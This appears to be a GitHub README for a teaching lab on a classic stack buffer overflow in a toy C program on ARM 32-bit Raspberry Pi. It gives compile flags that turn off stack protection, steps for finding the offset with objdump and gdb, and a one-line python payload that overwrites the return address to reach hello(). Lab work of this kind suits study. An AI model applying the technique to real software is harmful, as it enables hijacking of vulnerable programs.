




# ARM 32-bit Buffer Overflow Exploit (Raspberry Pi)

A hands-on demonstration of a classic stack buffer overflow vulnerability on ARM 32-bit Linux. This project shows how to redirect program execution by overwriting the saved return address on the stack.

## Disclaimer

Do not use these techniques on systems you do not own or have explicit permission to test.

## Overview

This exploit targets a simple C program with vulnerability: `gets()` reads unlimited input into a fixed-size buffer. By carefully crafting input, we overflow the buffer, overwrite the saved return address (`lr`) on the stack, and redirect execution to a different function (`hello()`).

## Building and Running

Raspberry Pi (or ARM 32-bit Linux) running Raspberry Pi OS

gcc, gdb, objdump, python3 installed

### Compile the Vulnerable Program

``` bash
gcc -o simple simple.c -fno-stack-protector
```

### Find the Address of hello()

``` bash
objdump -d simple | grep "<hello>:"
```


### Find the Offset to the Return Address

Run the program under GDB with a distinguishable pattern:




The value in pc tells you which group of bytes landed at the return address.
pc = 0x44444444, the DDDD group was at the return address position. Count bytes before it:

``` bash
AAAA BBBB CCCC = 12 bytes
```
So the offset is 12 bytes.

### Build the Payload

``` bash
python3 -c "import sys; sys.stdout.buffer.write(b'A'*12 + b'\x7c\x04\x01\x00')" > payload
``` 

Breakdown:

Component	            Value	            Meaning
b'A'*12	                AAAAAAAAAAAA	    Padding to reach the return address
b'\x7c\x04\x01\x00'	    0x0001047c	        Address of hello() in little-endian

### Run the Exploit

``` bash
./simple < payload
``` 



## References

Azeria Labs — Process Memory and Memory Corruption

Azeria Labs — ARM Assembly Basics

GDB Documentation

GEF — GDB Enhanced Features

## Project Structure

``` bash
.
├── simple.c          # Vulnerable program
├── simple            # Compiled binary
├── payload           # Crafted exploit input
└── README.md         # This file
``` 

